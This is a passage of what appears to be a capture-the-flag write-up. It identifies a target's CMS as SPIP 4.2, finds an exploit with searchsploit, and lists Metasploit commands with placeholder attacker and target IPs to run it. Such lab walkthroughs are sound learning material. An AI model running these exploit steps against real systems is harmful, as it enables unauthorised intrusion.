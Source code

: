 
### 🔍 Exploit Search

We identified the CMS as **SPIP**.

**Command:**
```bash
searchsploit spip 4.2
```
![Searchsploit Results](../images/Publisher_images/searchploit.png)

The exploit is also available in Metasploit.

**Metasploit Commands:**
```bash
search spip 4.2
set targeturi /spip
set lhost <YOUR_IP>
set rhost <TARGET_IP>
exploit
```
![Metasploit Search](../images/Publisher_images/exploit_find.png)
![Metasploit Setup](../images/Publisher_images/exploit_Setup.png)

---